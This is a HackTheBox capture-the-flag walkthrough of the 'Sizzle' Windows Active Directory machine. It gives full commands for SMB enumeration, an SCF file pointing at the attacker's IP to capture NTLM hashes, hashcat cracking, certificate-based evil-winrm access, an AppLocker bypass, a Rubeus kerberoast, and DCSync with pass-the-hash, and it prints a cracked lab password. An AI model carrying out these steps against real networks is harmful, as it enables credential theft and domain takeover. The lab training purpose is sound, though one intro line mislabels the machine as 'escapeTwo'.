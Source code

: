 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-07-07-sizzle-hackthebox
tags:
- hackthebox
- windows
- active directory
- acl
- certificates
title: sizzle @ HackTheBox
---
```

Sizzle is an insane Windows machine on [hackthebox.eu](https://www.hackthebox.eu). Initial access is gained through the use of enumerating the SMB share 'Department Shares' where the Users/Public folder is writeable. Creating a scf file, we gain a user hash which once cracked, gains us initial access. Enumerating SMB again, the directory 'CertEnroll' is accessible. Downloading these certs and logging into the web portal 'certsrv', we can create our own certificate and upload the base64 encoded version. Once submitted, you will recieve a pem key which will gain access to winrm. Root is gained by uploading Rubeus and kerberoasting a user account. Cracking this password gains us access to a new user account where using bloodhound, we can perform a desync attack, dumping the hashes of the domain controller and using a pass-the-hash attack to gain administrator over the domain controller.

## User & Root Flag
This post is a walkthrough for escapeTwo, an medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.169.243`) shows the following results:
```
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2025-07-07T02:03:36+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2025-07-07T02:03:36+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|   h2
|_  http/1.1
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
|_ssl-date: 2025-07-07T02:03:36+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
|_ssl-date: 2025-07-07T02:03:36+00:00; +1s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2025-07-07T02:03:36+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-07-07T02:03:36+00:00; +1s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-07T02:02:59
|_  start_date: 2025-07-06T18:04:07
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

## Initial Access
No starting creds were given to us.
Scanning directorys reveals a `/certsrv/`, we will get back to this later.
![capture-0](capture-0.PNG)

Using smbmap, we can access the shares via the `guest` account.
```
smbmap -u `guest` -p `` -H 10.129.169.243
```

![capture-1](capture-1.PNG)
Enumerating the department shares, we find a bunch of folders, but most notably the `User` folder.
![capture-2](capture-2.PNG)<br>
Enumerating the `Users` folder, we find a public folder which allows users to upload to it.
We can upload a SCF file and hope to get a hash via responder.<br>
![capture-3](capture-3.PNG)
<br>
Create a file named `@file.scf`.
```
[Shell]
Command=2
IconFile=\\10.10.16.48\share\imreal.ico
[Taskbar]
Command=ToggleDesktop
```

Run responder and wait for a response.
![capture-4](capture-4.PNG)<br>
<br>
With this hash, we can crack it via hashcat.
```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

![capture-5](capture-5.PNG)

## Amanda
Running smbmap as amanda, we have access to the `CertEnroll` share.
```
smbmap -u amanda -p 'Ashare1972' -H 10.129.169.243
```
![capture-6](capture-6.PNG)
Opening this directory with smbclient, we find a few certificates.
![capture-7](capture-7.PNG)

Downloading these and visiting the `/certsrv` directory, login as amanda.
![capture-8](capture-8.PNG)

Going to `Request a certificate` and `advanced certificate`, we can upload our own certificate.
First, we need to create our own self-signed certificate.
```
openssl req -new -newkey rsa:2048 -nodes -keyout private.key -out request.csr
```
Upload your `request.csr`, you should now have your private key and a pem key.
Use these with evil-winrm to get a shell.
```
evil-winrm -S -i 10.129.169.243 -u amanda -p `Ashare1972` -c certnew.cer -k private.key
```
![capture-9](capture-9.PNG)

## amanda (evil-winrm)
Once you gain a evil-winrm shell, uploading Rubeus will work however, will fail to run due to AppLocker. Using: [AppLocker](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md), we can find a directory which allows our exe to run without issue.
The directory `C:\Windows\temp` works.<br>
`Upload Rubeus.exe` <br>
[link to rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
```
evil-winrm: upload Rubeus.exe
move-item Rubeus.exe C:\Windows\temp
```
![capture-11](capture-11.PNG)
In order to keberoast an account, we need to see if keberos is running locally.
```
netstat -ap tcp
```
![capture-12](capture-12.PNG)

As keberos is running locally, we can perform a keberoast attack.
```
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```
![capture-13](capture-13.PNG)

With this hash, crack it with hashcat.
```
hashcat -m 13100 -a 0 kerb.txt /usr/share/wordlists/rockyou.txt 
```
![capture-14](capture-14.PNG)

## mrlky
Running bloodhound, we see that mrlky can perform a desync attack
![capture-15](capture-15.PNG)
Desync attack ACL
![capture-16](capture-16.PNG)
Performing DESYNC attack
![capture-17](capture-17.PNG)
Performing pass-the-hash attack
![capture-18](capture-18.PNG)